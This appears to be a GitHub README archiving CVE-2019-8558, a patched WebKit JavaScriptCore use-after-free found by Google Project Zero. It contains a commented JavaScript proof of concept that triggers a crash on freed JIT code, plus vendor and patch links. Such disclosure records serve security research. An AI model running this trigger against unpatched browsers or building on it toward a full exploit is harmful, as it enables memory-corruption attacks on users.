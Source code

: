 # CVE-2019-8558

- Report: Feb 2019
- Fix: Mar 2019
- Credit: Samuel Gross, Google Project Zero

## PoC

```javascript

function v9() {
    // Some watchpoint (on the LexicalEnvironment) is triggered here
    // during the 2nd invocation which jettisons the CodeBlock for v9.

    // Trigger GC here (in the 2nd invocation) and free the jettisoned CodeBlock.
    const v18 = [13.37,13.37,13.37,13.37];
    for (const v43 in v18) {
        const v47 = new Float64Array(65493);
    }

    // Trigger some other watchpoint here, jettisoning the same CodeBlock
    // again and thus crashing when touching the already freed memory.
    const v66 = RegExp();

    // Seems to be required to get the desired compilation
    // behaviour in DFG (OSR enter in a loop)...
    for (let v69 = 0; v69 < 10000; v69++) {
        function v70() {
            const v73 = v66.test("asdf");
        }
        v70();
    }

    // Inserts elements into the Array prototype so the
    // first loop runs longer in the second invocation.
    for (let v114 = 13.37; v114 < 10000; v114++) {
        const v127 = [].__proto__;
        v127[v114] = 1337;
    }
}
const v182 = /i/g;
const v183 = "ii";
v183.replace(v182,v9);

// (Jettisoning is the process of discarding a unit of JIT compiled code
//  because it is no longer needed or is now unsafe to execute).
```

## Reference

- [iOS 12.2](https://support.apple.com/en-us/HT209599)
- [macOS 10.14.4](https://support.apple.com/en-us/HT209600)
- [WebKit](https://bugs.webkit.org/show_bug.cgi?id=194544)
- [Patch](https://trac.webkit.org/changeset/241613/webkit)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1783)

